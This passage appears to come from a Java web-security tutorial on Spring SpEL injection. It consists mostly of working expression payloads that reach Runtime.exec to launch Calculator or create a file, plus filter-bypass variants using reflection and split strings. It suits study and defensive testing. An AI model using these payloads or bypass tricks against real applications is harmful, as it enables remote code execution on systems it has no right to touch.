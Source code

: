 For example, here we use the class `org.springframework.expression.Expression` to get the `AppClassLoader`.

```java
T(org.springframework.expression.spel.standard.SpelExpressionParser).getClassLoader().loadClass("java.lang.Runtime").getRuntime().exec("open -a Calculator")
```

<div align=center><img src="./images/4.png"></div>

For example, here we use the custom class `h3rmek1t.javawebsecurity.ElShell` to get the `AppClassLoader`.

```java
T(h3rmek1t.javawebsecurity.ElShell).getClassLoader().loadClass("java.lang.Runtime").getRuntime().exec("open -a Calculator")
```

<div align=center><img src="./images/5.png"></div>

### Loading UrlClassLoader via built-in objects
Reference [Spring SPEL Injection Vulnerability Exploit](https://mp.weixin.qq.com/s?__biz=MzAwMzI0MTMwOQ==
&idx=1&mid=2650174018&sn=94cd324370afc2024346f7c508ff77dd). The `request` and `response` objects are frequent visitors to the `web` project. If the `spel` dependency is introduced in the `web` project, then these two objects will be automatically registered.

```java
{request.getClass().getClassLoader().loadClass(\"java.lang.Runtime\").getMethod(\"getRuntime\").invoke(null).exec(\"touch/tmp/foobar\")}
```

```java
username[#this.getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("js").eval("java.lang.Runtime.getRuntime().exec('open -a Calculator')")]=asdf
```

## ByPass
### Reflection call

```java
T(String).getClass().forName("java.lang.Runtime").getRuntime().exec("open -a Calculator")
```

```java
#this.getClass().forName("java.lang.Runtime").getRuntime().exec("open -a Calculator")
```

### Reflection call && String stitching

```java
T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",T(String[])).invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime")),new String[]{"open","-a","Calculator"})
```
